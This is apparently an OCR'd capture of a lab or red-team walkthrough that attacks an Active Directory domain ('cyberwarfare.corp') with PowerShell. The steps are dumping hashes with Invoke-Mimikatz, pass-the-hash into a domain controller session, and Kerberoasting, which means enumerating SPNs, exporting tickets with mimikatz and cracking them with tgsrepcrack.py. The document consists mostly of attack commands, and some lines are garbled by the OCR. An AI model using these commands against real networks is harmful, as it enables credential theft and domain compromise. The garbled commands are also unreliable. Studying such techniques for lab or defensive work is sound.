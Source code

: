 ```powershell
Run Invoke-Mimikatz -ComputerName app-server -Verbose - To dump hashes on the app-server
And now we have the app-server hash.

One of the users there is app-svc. We can inspect each user with net user app-svc /domain
And app-svc is a member of domain admin group. Domain admin group holds the highest 
privilege in a domain.
```

## Exploitation

```powershell
On the app-server, we run Invoke-Mimikatz.ps1
run c 
/ntlm:hash /run:powershell.exe"' -Verbose.
Run . ./Powerview.ps1 script

Invoke-CheckLocalAdminAccess -ComputerName "DC-01.cyberwarfare.corp -Verbose - To check 
if the current or remote user has a local admin access on a machine(domain controller).

$sess = New-PSSession -ComputerName DC-01.cyberwarfare.corp -Verbose - Create new session 
on the domain controller.

Invoke-Command -Session $sess -ScriptBlock {ipconfig;whoami} -Verbose

Enter-PSSession -Session $sess -Verbose

Run whoami and we are now in the domain controller.


```

## Kerberoasting

```powershell
Kerberoating is simply extracting the Ntlm hash of the service account from the TGS and
bruteforcing it.
- Find User accounts used as a service account
Get-NetUser -SPN -Verbose

-Enumerate all SPNs on a domain
setspn -T cyberwarfare.corp -Q */*

- Request TGS aka service ticket  (Powerview.ps1)
Request-SPNTicket

#Check the services running

Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList
"HTTP/portal.cyberwarfare.corp"

- Check ticket in memory
klist

- Export ticket from memory using mimikatz:
Invoke-Mimikatz -Command '"kerberos::list /export"'

- Now Crack the service account password using tgsrepcrack.py
python.exe .\tgsrepcrack.py .\password.txt Ticket.CORP.Kirbi'
```

